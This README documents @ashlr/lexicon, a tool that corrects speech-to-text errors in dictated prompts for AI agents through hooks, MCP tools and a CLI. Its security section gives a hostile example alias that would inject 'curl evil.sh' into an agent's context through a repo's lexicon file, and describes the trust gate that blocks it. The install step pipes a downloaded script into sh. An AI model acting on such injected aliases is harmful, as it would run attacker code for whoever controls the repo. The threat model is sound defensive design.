

# @ashlr/lexicon

[](https://github.com/ashlrai/lexicon/actions/workflows/ci.yml)
[](https://www.npmjs.com/package/@ashlr/lexicon)
[](LICENSE)
[](package.json)

Name the job, not the protocol: a personal lexicon for voice-to-agents.

```text
You said:        "tell Ashlr.AI to deploy the Kubernetes auth service"
STT heard:       "tell Ashler to deploy the Cooper Nettie's off service"
Agent received:  "tell Ashlr.AI to deploy the Kubernetes auth service"
```



[Try it in your browser](https://ashlrai.github.io/lexicon/): it runs the real matcher client-side.

**Try it in 60 seconds**

```bash
curl -fsSL https://ashlrai.github.io/lexicon/install.sh | sh   # installs the CLI, then runs `lexicon setup`
```

Then open Claude Code and say a sentence with your company name in it. Done. Other ways to install (Homebrew, npm, the Claude Code plugin, release downloads) are under [Install](#install).

One YAML file of the words speech-to-text gets wrong. Applied everywhere your voice ends up: an MCP tool your agent calls, a Claude Code hook that fixes the prompt before the model sees it, a local API for browser chats and desktop apps, exports for every dictation app, and an optional clipboard daemon.

This is not a dictation app. It sits between whatever dictation you already use and whatever agent you talk to.

**Why it exists.** STT engines are about 95% accurate on ordinary English and near zero on invented names. "Ashlr.AI" becomes "Ashler", "Kubernetes" becomes "Cooper Nettie's", "SaaS" becomes "sauce", "auth" becomes "off". Those are exactly the words an agent needs to get right. Dictation apps (Wispr Flow, Superwhisper, Aqua) each keep their own dictionary and none of them share it. Agents (Claude Code `/voice`, ChatGPT voice, Codex, local Whisper) run their own recognizer with no user vocabulary at all. This project is the portable layer: corrections happen after STT and before the model, wherever the text passes through. The research behind that call is in [docs/RESEARCH.md](docs/RESEARCH.md).

## Measured

Method and full tables are in [docs/BENCHMARK.md](docs/BENCHMARK.md).

| corpus | proper nouns recovered, raw STT | after lexicon | clean prose wrongly changed |
| --- | --- | --- | --- |
| real audio, whisper.cpp base.en (330 clips) | 41.9% | 86.4% | 0 of 72 |
| real audio, whisper.cpp small.en with prompt hints | 76.0% | 95.7% | 0 of 72 |
| synthetic STT errors (398 sentences, 70 terms) | 5.1% | 96.5% | 0 of 95 |

Latency is about 0.3 ms per sentence. The real-audio rows use macOS text-to-speech read into whisper.cpp, so they are cleaner than a phone microphone. Reproduce with `npm run bench:audio`.

## What you get

- Seventeen MCP tools (`normalize_transcript`, `learn_correction`, `suggest_canonical`, `harvest_repo`, `setup_lexicon`, `lexicon_doctor` and more) plus two resources and two prompts, for Claude Code, Codex, Cursor, Windsurf, Gemini CLI, VS Code and Claude Desktop. See [MCP tools](#mcp-tools).
- A Claude Code plugin: MCP server, `SessionStart` and `UserPromptSubmit` hooks, a `lexicon` skill and a `/lexicon` command. Installs from this repo's marketplace with no build step.
- A CLI with 25 commands, from `lexicon add` to `lexicon voice`. See [CLI reference](#cli-reference).
- Fifteen export formats: Wispr Flow, Superwhisper, macOS Text Replacement, espanso, Whisper and OpenAI prompts, Deepgram, AssemblyAI, Azure, Google, CLAUDE.md, markdown, text, CSV, JSON.
- Seven import formats for the dictionary you already have: Wispr CSV, Superwhisper JSON, macOS plist, espanso, text, CSV, JSON.
- Repo harvesting, correction learning ("it's Ashlr.AI not Ashler"), usage stats, suggestions mined from your voice history, a trust gate for project lexicons, and a clipboard daemon for macOS, Linux and Windows.
- Desktop coverage: a local HTTP API (`lexicon serve`), a browser extension for ChatGPT, Claude.ai, Grok, Gemini, Perplexity, Poe and Copilot, local push-to-talk (`lexicon voice`, whisper.cpp), and the LexiconBar macOS menu bar app. See [Desktop apps, browser chats and local voice](#desktop-apps-browser-chats-and-local-voice).
- A plain library: `normalize()` is a pure function. See [Use as a library](#use-as-a-library).

**Agent-native.** Your agent can do the setup itself. The MCP server exposes `setup_lexicon`, `lexicon_doctor`, `install_client`, `trust_project`, `import_dictionary`, `suggest_terms` and `apply_suggestion`, plus an `onboard` prompt, so "set up my lexicon" in Claude Code runs setup, doctor, install, trust, import and suggestions without you touching a terminal. Every tool previews before it writes. The `SessionStart` hook offers onboarding when the lexicon is empty. See [docs/AGENT-NATIVE.md](docs/AGENT-NATIVE.md).

## Install

Try it first without installing anything: the [live demo](https://ashlrai.github.io/lexicon/) runs the same matcher in your browser, with dictation. The walkthrough, with what each step writes and how to undo it, is in [docs/QUICKSTART.md](docs/QUICKSTART.md).

Pick one:

| | Command | Notes |
|---|---|---|
| Script | `curl -fsSL https://ashlrai.github.io/lexicon/install.sh \| sh` | Needs Node 20 or newer. Installs the CLI, then runs `lexicon setup`. `LEXICON_NO_SETUP=1` skips the wizard |
| Homebrew | `brew install ashlrai/tap/lexicon` | macOS and Linux. Pulls in Node; recommends ffmpeg and whisper.cpp for `lexicon voice`. The formula lives in [ashlrai/homebrew-tap](https://github.com/ashlrai/homebrew-tap) |
| npm | `npm i -g @ashlr/lexicon` | Node 20 or newer. Published on the npm registry with provenance. `npm i -g github:ashlrai/lexicon#v0.3.1` installs a tag straight from GitHub and builds on install |
| Claude Code plugin | `claude plugin marketplace add ashlrai/lexicon` then `claude plugin install lexicon@ashlrai` | No Node install step, no CLI. See [Use with Claude Code](#use-with-claude-code) |

After a Homebrew or npm install, run the wizard yourself. `lexicon setup` walks six steps: seed the global lexicon with your name and company, harvest the current repo, register the MCP server and hooks in the agent clients it detects, install the local API as a login service, export to your dictation app, and print a summary. Every step is safe to rerun. Or skip it and add a term by hand: the first argument is the canonical spelling, the rest are what STT actually produces.

```bash
lexicon setup
# or
lexicon add Ashlr.AI Ashler Ashlar "Ashler AI" --phonetic ASH-ler
lexicon normalize "tell Ashler to ship it"
# tell Ashlr.AI to ship it
```

`lexicon doctor` checks the install. Nothing phones home; the only download the tool ever makes is the whisper model for `lexicon voice`, on first use.

**Downloads.** Every [GitHub release](https://github.com/ashlrai/lexicon/releases/latest) attaches:

| Asset | What it is |
|---|---|
| [`lexicon-extension.zip`](https://github.com/ashlrai/lexicon/releases/latest/download/lexicon-extension.zip) | Chrome, Edge and Brave extension. Unzip, then "Load unpacked" at `chrome://extensions`. See [docs/EXTENSION.md](docs/EXTENSION.md) |
| [`lexicon-extension-firefox.zip`](https://github.com/ashlrai/lexicon/releases/latest/download/lexicon-extension-firefox.zip) | The same extension for Firefox, loaded from `about:debugging` |
| [`LexiconBar.app.zip`](https://github.com/ashlrai/lexicon/releases/latest/download/LexiconBar.app.zip) | macOS menu bar app: push to talk, fix clipboard, supervise the daemon and the local API. Ad-hoc signed, so right-click and Open on first launch. See [docs/MACOS-APP.md](docs/MACOS-APP.md) |
| `ashlr-lexicon-<version>.tgz` | The npm package as a tarball, for `npm i -g ./ashlr-lexicon-<version>.tgz` offline |
| `SHA256SUMS` | Checksums for the assets above |

## Use with Claude Code

Three options, from most to least integrated. `lexicon setup` and `lexicon install claude --apply` perform option b for you.

### a. Plugin

```bash
claude plugin marketplace add ashlrai/lexicon
claude plugin install lexicon@ashlrai
```

Or inside a Claude Code session: `/plugin marketplace add ashlrai/lexicon` then `/plugin install lexicon@ashlrai`. The marketplace manifest is [.claude-plugin/marketplace.json](.claude-plugin/marketplace.json).

The plugin ships:

- `.mcp.json`: the `lexicon` MCP server.
- `hooks/hooks.json`: a `SessionStart` hook that hands the model your lexicon once per session and a `UserPromptSubmit` hook that corrects each dictated prompt. Both are described under [What the hooks do](#what-the-hooks-do).
- `skills/lexicon/SKILL.md`: tells Claude when to normalize, when to save a correction, when to ask "did you mean", and how to run setup, doctor and suggestions.
- `commands/lexicon.md`: the `/lexicon` command (`/lexicon`, `/lexicon add X as Y, Z`, `/lexicon learn Y -> X`, `/lexicon harvest`, `/lexicon export <format>`, `/lexicon remove X`, `/lexicon stats`, `/lexicon setup`, `/lexicon doctor`, `/lexicon suggest`, `/lexicon trust [path]`).

The plugin is self-contained. `.mcp.json` and `hooks/hooks.json` run `plugin/mcp-server.mjs` and `plugin/hook.mjs`, two single-file bundles committed to the repo with every dependency inlined. A plugin install is a bare clone with no `npm install` and no build step, and that is all it needs: the only runtime requirement is Node 20 or newer on your `PATH`. The bundles are produced by `npm run build:bundle` and CI fails when they are out of date with `src/`.

### b. Manual

```bash
lexicon install-claude          # print what would change
lexicon install-claude --apply  # do it
```

Without `--apply` it prints the three steps. With `--apply` it performs the first two:

1. Registers the MCP server: `claude mcp add --scope user lexicon -- node "<install path>/plugin/mcp-server.mjs"`. Use `--scope project` to register it in the current repo instead.
2. Merges `SessionStart` and `UserPromptSubmit` hooks running `node "<install path>/plugin/hook.mjs"` (timeout 5s) into `~/.claude/settings.json`. Existing hooks are kept. The fragment is in [examples/claude-settings.hook.json](examples/claude-settings.hook.json).
3. Reminds you to add "Read the `lexicon://me` resource before interpreting dictated text" to your `CLAUDE.md`.

Paths are absolute and quoted, so an install path with spaces works. The bundles under `plugin/` are preferred (the npm package ships them too); a checkout that only ran `npm run build` falls back to `dist/mcp/server.js` and `dist/hooks/user-prompt-submit.js`. `lexicon doctor` checks that the plugin or the hooks are in place.

Manual installs do not load `skills/lexicon/SKILL.md`; the hook notes and the tool descriptions carry the instructions. Install the plugin (option a) to get the skill and the `/lexicon` command.

### c. Minimal

No hook, no MCP. Paste the markdown export into `CLAUDE.md` so the model at least knows the right spellings.

```bash
lexicon export claude-md >> CLAUDE.md
```

### What the hooks do

Claude Code hooks cannot rewrite the prompt. The `UserPromptSubmit` hook does not try. It runs `normalize` on the submitted text and, only if something changed, returns an `additionalContext` note:

```text
Voice lexicon corrections for this prompt (the user dictated; apply these):
"Ashler" -> "Ashlr.AI" (alias, 1.00)
"head sner" -> "Hetzner" (alias, 1.00)
Corrected prompt:
tell Ashlr.AI to ship it to Hetzner
```

The model starts the turn already knowing that "Ashler" means "Ashlr.AI". When nothing changed it prints nothing. It always exits 0, logs errors to stderr only, and measures about 100ms end to end including Node startup (budget 200ms), so a broken lexicon never blocks a prompt. It also bumps each matched term's `hits` counter in the background, so `lexicon stats` counts hook matches from any session, including headless and scripted ones.

When the prompt itself is a correction ("it's Ashlr.AI, not Ashlar", "Ashlar -> Ashlr.AI", "replace Ashlar with Ashlr.AI", "it's Ashlr.AI not Ashlar. remember that.") the hook adds one more line asking the model to call `learn_correction` with `heard: "Ashlar", meant: "Ashlr.AI"`. On a correction prompt the hook does not normalize the words being corrected: "Ashlar" is left as the user wrote it, is not counted as a hit, and the rest of the prompt is still corrected. The hook never writes to the lexicon; the model makes the call, so a false positive costs nothing.

The same file runs as the `SessionStart` hook (startup, resume, clear and compact). It emits the `claude-md` export of your merged lexicon as `additionalContext`, so the spellings reach the model once per session even if it never reads `lexicon://me`. The context is capped at about 4000 characters; longer tables end with "... N more terms; read the lexicon://me resource for the full list." An empty lexicon emits a short onboarding note instead, at most once a day, asking the model to offer `setup_lexicon`. An untrusted project file adds one line naming its path, never its contents (see [Security and trust](#security-and-trust)).

### Headless and scripted use

Both hooks fire in print mode (`claude -p "..."`), so a scripted run gets the same corrections as an interactive one. In a session that is not in bypass-permissions mode, pre-approve the tools with `--allowedTools mcp__lexicon` (the whole server) or list them, for example `--allowedTools mcp__lexicon__normalize_transcript mcp__lexicon__learn_correction`. To test writes without touching your real file set `LEXICON_PATH=/tmp/lex.yaml` in the environment of the `claude` process; the hook and the MCP server it spawns both inherit it.

```bash
LEXICON_PATH=/tmp/lex.yaml claude -p "it's Ashlr.AI not Ashlur. remember that." --allowedTools mcp__lexicon
```

## Use with other agents

### One command per client

`lexicon install <client>` prints the MCP config the client needs, with the absolute path to the installed server. Add `--apply` to merge it into the client's config file (existing keys and other servers are kept; running it twice is a no-op). `lexicon setup` runs this for every client it detects.

```bash
lexicon install codex            # print the [mcp_servers.lexicon] block for ~/.codex/config.toml
lexicon install codex --apply    # write it
```

| Client | Command | Writes |
|---|---|---|
| Claude Code | `lexicon install claude` | same as `install-claude` (MCP + hooks) |
| OpenAI Codex CLI | `lexicon install codex` | `~/.codex/config.toml` (`[mcp_servers.lexicon]`) |
| Cursor | `lexicon install cursor` | `~/.cursor/mcp.json` |
| Windsurf | `lexicon install windsurf` | `~/.codeium/windsurf/mcp_config.json` |
| Gemini CLI | `lexicon install gemini` | `~/.gemini/settings.json` |
| Claude Desktop | `lexicon install claude-desktop` | `~/Library/Application Support/Claude/claude_desktop_config.json` (macOS), `%APPDATA%\Claude\claude_desktop_config.json` (Windows), `~/.config/Claude/claude_desktop_config.json` (Linux) |
| VS Code | `lexicon install vscode` | `~/Library/Application Support/Code/User/mcp.json` (macOS), `~/.config/Code/User/mcp.json` (Linux), `%APPDATA%\Code\User\mcp.json` (Windows) |
| Anything else | `lexicon install` | prints the generic `mcpServers` snippet |

`--project` (or `--scope project`) writes the repo-level file instead where the client has one: `./.codex/config.toml`, `./.cursor/mcp.json`, `./.gemini/settings.json`, `./.vscode/mcp.json`. Every client ends with the same hint: `lexicon export claude-md >> <rules file>` (`CLAUDE.md`, `AGENTS.md` for Codex, `.cursor/rules/`, `GEMINI.md`) so the model prefers the canonical spellings even when it does not call the tool.

### Any MCP client

Point the client at the stdio server. See [examples/mcp-config.json](examples/mcp-config.json).

```json
{
  "mcpServers": {
    "lexicon": {
      "command": "lexicon-mcp",
      "args": []
    }
  }
}
```

`lexicon-mcp` is on your PATH after `npm i -g`. From a checkout, use `"command": "node", "args": ["/path/to/lexicon/plugin/mcp-server.mjs"]` instead; the bundle runs without a build.

The agent then calls `normalize_transcript` on dictated input and reads `lexicon://me` for the full vocabulary. The server also sends one-screen `instructions` at connect time, so a client that honours them knows the workflow without the skill.

### ChatGPT, Claude, Grok voice

You cannot patch their recognizer. Two things work: the [browser extension](docs/EXTENSION.md) fixes the text composer before you hit send, and pasting the export into custom instructions or memory lets the model correct itself.

```bash
lexicon export claude-md | pbcopy
```

## Desktop apps, browser chats and local voice

Hooks and MCP only reach agents that support them. Everything else on your desktop goes through one of these.

| Surface | What to use |
|---|---|
| Claude Desktop, Codex app, Cursor, Windsurf, VS Code | `lexicon install <client> --apply` registers the MCP server; the model calls `normalize_transcript` on dictated input |
| ChatGPT, Claude.ai, Grok, Gemini, Perplexity, Poe, Copilot in a browser | The [browser extension](docs/EXTENSION.md) rewrites the composer when you press send, using the local API or an embedded copy of your lexicon |
| Shortcuts, Raycast, scripts, your own app | `lexicon serve`: a local HTTP API on `127.0.0.1:41733` with a bearer token. `POST /normalize`, `/learn`, `/add`, `GET /health`, `/lexicon`, `/stats`, `/export/:format`. `--show` prints the URL and token, `--status` checks it, `--install`/`--uninstall` manage a launchd or systemd user service, `--port`, `--host`, `--json`, `--quiet`. See [docs/LOCAL-API.md](docs/LOCAL-API.md) |
| Local dictation without a dictation app | `lexicon voice`: ffmpeg records, whisper.cpp transcribes with your canonicals as prompt hints, the lexicon corrects. `--toggle` for a hotkey, `--paste`/`--copy`/`--json`, `--model`, `--device`, `--list-devices`, `--status`, `--seconds`, `--lang`, `--translate`, `--no-prompt`, `--no-history`, `--quiet`. Exit 2 when ffmpeg or whisper-cli is missing, 3 when nothing was heard. See [docs/VOICE.md](docs/VOICE.md) |
| Any text field, any app | `lexicon daemon --once --paste` on a shortcut (see [Clipboard daemon](#clipboard-daemon-macos-linux-windows)), or the [LexiconBar](docs/MACOS-APP.md) menu bar app on macOS |
| Keeping the lexicon sharp | `lexicon suggest`: aliases, new terms, never-words and stale terms mined from voice history, hits and the repo. `--apply` walks them, `--yes` applies confidence >= 0.8, `--harvest [dir]`, `--limit`, `--project`, `--json`. See [docs/SUGGEST.md](docs/SUGGEST.md) |

Start the pieces you want once:

```bash
lexicon serve --install          # local API at login (launchd or systemd user unit)
lexicon serve --show             # URL and token to paste into the extension options
lexicon voice --list-devices     # pick a microphone, then bind: lexicon voice --toggle --paste
npm run build:extension          # then Load unpacked: extension/dist
scripts/build-macos-app.sh       # apps/macos/build/LexiconBar.app (hotkey, clipboard, voice, API)
```

The voice path is deliberately minimal. Wispr Flow and Superwhisper remain nicer dictation apps; use them and export your lexicon into their dictionaries. `lexicon voice` is for people who want a fully local path with no accounts.

## Use with your dictation app

Export the same lexicon into each app's native dictionary format.

```bash
lexicon export <format> --out <file>
```

| Format | What you get | Where it goes |
|---|---|---|
| `wispr` | CSV `word,replacement` | Wispr Flow > Dictionary > Import |
| `superwhisper` | Replacements JSON | Superwhisper replacements |
| `macos` | Text Replacement `.plist` | Drag into System Settings > Keyboard > Text Replacements |
| `espanso` | espanso match YAML | `~/.config/espanso/match/lexicon.yml` |
| `whisper-prompt` | One line for Whisper `initial_prompt` | Any Whisper wrapper. Keep it under about 100 terms or it stops helping |
| `openai` | One line of canonicals | OpenAI transcription `prompt` field (same as `whisper-prompt`) |
| `deepgram` | Keyword boost JSON | Deepgram `keywords` parameter |
| `assemblyai` | `word_boost` JSON | AssemblyAI `word_boost` / `boost_param` |
| `azure` | `phraseList` JSON | Azure Speech `PhraseListGrammar` |
| `google` | Adaptation `phraseSets` JSON | Google Speech-to-Text model adaptation (boost 20 for brand/person/product, 10 otherwise) |
| `claude-md` | Markdown table under `## Voice lexicon` | `CLAUDE.md`, `AGENTS.md`, any system prompt. Also what `lexicon://me` and the `SessionStart` hook emit |
| `markdown` | `- **Canonical** (category): aliases` bullets | READMEs, wikis |
| `text` | `Canonical: alias1, alias2` per line | Anything human-edited; `lexicon import` reads it back |
| `csv` | Generic `canonical,alias` | Anything else |
| `json` | Raw lexicon JSON | Scripts, backups |

`lexicon export` with no format lists them. `--category brand person` limits the export to those categories. `--limit N` caps term count.

## Import an existing dictionary

Already trained a dictation app? Bring its dictionary over in one command instead of retyping it. The format is detected from the content; pass it explicitly when the file has no header.

```bash
lexicon import ~/Downloads/wispr-dictionary.csv          # auto-detected
lexicon import - --format text < names.txt               # stdin
lexicon import replacements.json --project --dry-run     # preview into .lexicon.yaml, write nothing
lexicon import Text\ Substitutions.plist --category brand
```

| Format | What it reads | Where to get it |
|---|---|---|
| `wispr` | CSV `word,replacement` (header optional, BOM/CRLF fine) | Wispr Flow > Dictionary > Export |
| `superwhisper` | JSON `[{ original, replacement }]` or `{ replacements: [...] }` | Superwhisper replacements file |
| `macos` | Text Replacement `.plist` (`shortcut` = alias, `phrase` = canonical) | Drag entries out of System Settings > Keyboard > Text Replacements |
| `espanso` | `matches:` YAML (`trigger` = alias, `replace` = canonical; templates with `vars`, regex or multi-line replacements are skipped) | `~/.config/espanso/match/*.yml` |
| `text` | One term per line: `Canonical`, `Canonical: alias1, alias2` or `Canonical = alias1 \| alias2`; `#` comments | Anything you typed by hand, or `lexicon export text` |
| `csv` | `canonical,alias,category,phonetic` (columns matched by header) | `lexicon export csv` |
| `json` | A lexicon JSON or YAML file | `lexicon export json`, another machine's `lexicon.yaml` |

Rows are merged by canonical (case-insensitive), aliases deduped, and each term is then added with the same merge rules as `lexicon add`, so re-importing is safe. The output is a table of what was created or merged plus a summary line, `imported N terms (M new, K merged, S skipped)`; skipped rows and why go to stderr. Inputs over 8 MB are refused before parsing. Flags are in the [CLI reference](#cli-reference).

## Harvest your repo

Most of the words STT mangles are already in your codebase.

```bash
lexicon harvest .          # list candidates
lexicon harvest . --add    # add them to the project lexicon
```

It scans package and module names (`package.json`, `pyproject.toml`, `Cargo.toml`, `go.mod`), PascalCase identifiers with two or more humps, git author names, the project directory name and proper nouns in README headings. Common words and generic identifiers (`String`, `Error`, `Component`) are filtered out. Each candidate comes with auto-suggested aliases.

```text
canonical      category    count  suggested aliases                           evidence
-------------  ----------  -----  ------------------------------------------  -----------------
LexiconStore   identifier  5      Lexicon Store, Lexikon Store, LexikonStore  src/store.ts
Ashlr.AI       brand       2      Ashlr AI, Ashlr, Ashler, Ashlar, Ashler AI  README.md
```

`--limit N` caps candidates, `--min-count N` sets the minimum occurrences (default 2), `--json` prints candidates as JSON. It never reads `node_modules`, `dist`, `.git`, `vendor` or `build`.

### Pick candidates one by one

On a terminal, `--add` walks the candidates instead of adding them blindly (`--yes` adds every candidate without asking; `--interactive` / `-i` forces the walkthrough without `--add`). Each candidate shows its category, count, evidence and suggested aliases; one key decides it:

```text
$ lexicon harvest . --add
12 candidates [y]es  [n]o  [e]dit aliases  [c]ategory  [a]ll remaining  [q]uit

[1/12] LexiconStore  identifier, seen 5x
  evidence: src/store.ts, src/index.ts
  aliases:  Lexicon Store, Lexikon Store, LexikonStore
  add? [y/n/e/c/a/q] y
  added LexiconStore

[2/12] Ashlr.AI  brand, seen 2x
  evidence: README.md
  aliases:  Ashlr AI, Ashlr, Ashler, Ashlar, Ashler AI
  add? [y/n/e/c/a/q] e
  aliases (comma-separated, replaces the suggestions) [Ashlr AI, Ashlr, Ashler, Ashlar, Ashler AI] Ashler, Ashlar, Ashley our AI
  aliases:  Ashler, Ashlar, Ashley our AI
  add? [y/n/e/c/a/q] y
  added Ashlr.AI

[3/12] Mason Wyatt  person, seen 40x
  add? [y/n/e/c/a/q] q

added 2 new terms, merged 0, skipped 10 in /repo/.lexicon.yaml
project lexicon trusted (/repo/.lexicon.yaml)
```

`y` adds, `n` skips, `e` replaces the suggested aliases with what you type, `c` changes the category, `a` adds this and every remaining candidate, `q` stops. Adds go to the project lexicon and respect the [trust gate](#security-and-trust). `--interactive` without a terminal (a pipe, CI) is an error; use `--add --yes` there.

### Learn from corrections

The other source of terms is you correcting the agent. `lexicon learn` records what STT heard and what you meant; the MCP tool `learn_correction` does the same from inside a session, and the `UserPromptSubmit` hook prompts the model to call it when your prompt is a correction.

```bash
lexicon learn Ashler Ashlr.AI                       # <heard> <meant>
lexicon learn "Ashler -> Ashlr.AI"                   # or one sentence
lexicon learn --from "it's Ashlr.AI, not Ashler"     # natural language
```

If `Ashlr.AI` already exists (as a canonical or an alias) the heard form becomes one more alias of it; otherwise a new term is created with `source: learned` plus auto-suggested aliases. Recognized phrasings: "it's X not Y", "I said X not Y", "I meant X not Y", "not Y, X", "replace Y with X", "Y -> X", "Y should be X", plus quoted forms. `--project` writes to `.lexicon.yaml`.

`lexicon stats` shows term and alias counts, total hits, the ten most-used terms and up to twenty that never fired. Every replacement made by the MCP `normalize_transcript` tool, the `UserPromptSubmit` hook, the local API, `lexicon voice` or the clipboard daemon bumps the term's `hits` counter (the CLI `normalize` does not), so the numbers reflect what was actually corrected.

### Suggestions from your voice history

`lexicon suggest` reads `voice/history.jsonl` (written by `lexicon voice`), the hit counters and, with `--harvest`, the repo, and proposes four kinds of change: an `alias` STT keeps producing for a term you have, a `term` that recurs in corrected output but is not in the lexicon, a `never` word that keeps getting rewritten by mistake, and a `stale` term that never fired in 30 days. `--apply` walks them one by one, `--yes` applies everything at or above 0.80 confidence (stale removals and harvest candidates never qualify), `--json` prints them. The same list is available to your agent as `suggest_terms` and `apply_suggestion`. Details in [docs/SUGGEST.md](docs/SUGGEST.md).

### Review what you have

`lexicon review` walks existing terms (`--never-hit` for only the ones that never fired, `--project` for the project file, `--category <c>`), showing each term's aliases and hit count and taking `k` keep, `d` delete, `e` edit aliases, `p` phonetic hint, `n` notes, `q` quit. The file is written once at the end. `lexicon edit` opens the global (or `--project`) file in `$VISUAL` / `$EDITOR` and validates it when the editor exits, reporting any schema error with the path so your edits are never lost. `lexicon add <canonical> -i` turns the auto-suggested aliases into a checklist and asks for the phonetic hint and category.

## Clipboard daemon (macOS, Linux, Windows)

Dictate anywhere, copy the text, paste the corrected version.

```bash
lexicon daemon                 # watch the clipboard, rewrite in place
lexicon daemon --once          # correct the clipboard once and exit (bind this to a shortcut)
lexicon daemon --once --paste  # ...then send Cmd+V to the frontmost app (macOS)
lexicon daemon --dry-run       # print what would change, do not write
lexicon daemon --interval 500  # poll every 500ms instead of 250
lexicon daemon --quiet         # rewrite silently
lexicon daemon --which         # print the detected clipboard backend and exit
lexicon daemon --backend xsel  # force a backend: pbcopy | wl | xclip | xsel | powershell
```

The watcher polls the clipboard every 250ms. When the text changes and `normalize` would alter it, it writes the corrected text back, prints the diff and records the hits. A loop guard remembers the last value it wrote so it never rewrites its own output. The lexicon is re-read at most every 5 seconds. Ctrl-C stops it cleanly.

The clipboard tool is detected per platform (`lexicon daemon --which` and `lexicon doctor` show which one):

| Platform | Backend | Commands |
|---|---|---|
| macOS | `pbcopy` | `pbpaste` / `pbcopy` (built in) |
| Linux, Wayland (`WAYLAND_DISPLAY` set) | `wl` | `wl-paste --no-newline` / `wl-copy` (`sudo apt install wl-clipboard`) |
| Linux, X11 | `xclip`, else `xsel` | `xclip -selection clipboard -o` / `-i` (`sudo apt install xclip`) |
| Windows | `powershell` | `Get-Clipboard -Raw` / `Set-Clipboard` (built in; CRLF preserved) |

An empty or non-text clipboard (an image, a file) is treated as no text and skipped, as is anything over 20,000 characters.

### One-shot mode for a keyboard shortcut

`lexicon daemon --once` reads the clipboard once, corrects it, writes it back if anything changed, prints the diff (or `no changes`) and exits 0. Bind it to a key: dictate, copy, press the key, paste. With `--paste` (macOS only) it also sends Cmd+V to the frontmost app, so the shortcut becomes "dictate, press the key". `--paste` uses `osascript` and needs Accessibility permission for whatever runs the shortcut (Raycast, Alfred, Keyboard Maestro, Terminal): System Settings > Privacy & Security > Accessibility. Nothing else in the daemon needs a permission. On Linux and Windows `--paste` prints a notice and leaves the corrected text on the clipboard. On macOS the [LexiconBar](docs/MACOS-APP.md) app wraps the same command in a menu bar hotkey.

Raycast script command (save as `~/raycast-scripts/lexicon-fix.sh`, `chmod +x`, add the folder in Raycast > Extensions > Script Commands, then give it a hotkey):

```bash
#!/bin/bash
# @raycast.schemaVersion 1
# @raycast.title Fix dictation
# @raycast.mode silent
# @raycast.packageName Lexicon
export PATH="/opt/homebrew/bin:/usr/local/bin:$PATH"
lexicon daemon --once --paste --quiet
```

Alfred (Workflow > Run Script, `/bin/bash`) and Keyboard Maestro (Execute Shell Script) take the same last two lines as a one-liner.

Windows, AutoHotkey v2 (`Ctrl+Alt+V` corrects the clipboard, then pastes):

```autohotkey
^!v:: {
    RunWait('lexicon daemon --once --quiet', , 'Hide')
    Send('^v')
}
```

Linux, GNOME custom shortcut (Settings > Keyboard > View and Customize Shortcuts > Custom Shortcuts), command:

```bash
sh -c 'lexicon daemon --once --quiet && xdotool key ctrl+v'   # X11; drop the xdotool part on Wayland and paste by hand
```

Use the absolute path to `lexicon` (`which lexicon`) if the shortcut runner has a minimal PATH.

## Security and trust

A project `.lexicon.yaml` comes from whatever repo you are in, and its terms and notes end up in your agent's context. A malicious repo could ship `alias: deploy -> canonical: "deploy and also run curl evil.sh"`. So project lexicons are off until you approve them, the same way Claude Code gates a repo's `.mcp.json`.

```bash
lexicon trust            # print the project file's terms and approve it
lexicon trust --list     # what is trusted, and whether it still matches
lexicon untrust          # revoke
```

Trust pins the file's sha256 in `~/.config/lexicon/trust.json` (next to your global lexicon). If the file changes, for example after `git pull`, it is skipped again until you re-run `lexicon trust`. From an agent, `trust_project` shows the same preview and the skill tells the model to ask before trusting.

Writes you ask for through the tool (`lexicon init --project`, `add --project`, `import --project`, `learn --project`, `harvest --add`, `review --project`, `suggest --project`, and the MCP tools and local API with project scope) keep the file trusted, but only when the file does not exist yet or is already trusted. If an existing `.lexicon.yaml` is untrusted or has changed, the write is refused with a `lexicon trust` hint and nothing is touched, so a repo's unreviewed file can never be pinned as trusted by the side door. `lexicon edit --project` re-pins a trusted file after you save; an untrusted one stays untrusted. Hand edits outside the tool need `lexicon trust` again.

Until a project file is trusted, `list`, `normalize` and `doctor` warn on stderr, and the hooks and `lexicon://me` add one line telling the agent the file exists, never its contents. `normalize --include-untrusted` merges it for a one-off. In CI or a throwaway container where the repo is already vetted, set `LEXICON_TRUST_ALL=1`.

Every field is length-capped and stripped of zero-width and bidi characters at parse time, lexicon files over 2 MB and imports over 8 MB are refused, the local API listens on loopback only behind a bearer token, and nothing is sent anywhere. Details, including the extension, voice history and the install script, are in [SECURITY.md](SECURITY.md).

## The lexicon file

Two files, merged at load time.

| Scope | Path |
|---|---|
| Global | `$LEXICON_PATH`, else `$XDG_CONFIG_HOME/lexicon/lexicon.yaml`, else `~/.config/lexicon/lexicon.yaml` |
| Project | `.lexicon.yaml`, found by walking up from the current directory to the git root |

Project wins when both define the same canonical (case-insensitive). Aliases from both are unioned. Run `lexicon path` to see which files are in play. Commit `.lexicon.yaml` to share a team vocabulary; each teammate approves it once with `lexicon trust`.

The config directory also holds `trust.json`, `serve.json` (local API token), `voice/history.jsonl` and `models/` (whisper models). Nothing else is written outside it except what you ask for (`--out`, exports from `lexicon setup`, client config files under `--apply`).

A full annotated example is in [examples/lexicon.example.yaml](examples/lexicon.example.yaml). The short version:

```yaml
version: 1
terms:
  - canonical: Ashlr.AI
    aliases: [Ashler, Ashlar, Ashler AI, Ashley our AI]
    phonetic: ASH-ler
    category: brand
    notes: my company; never write Ashlar
  - canonical: SaaS
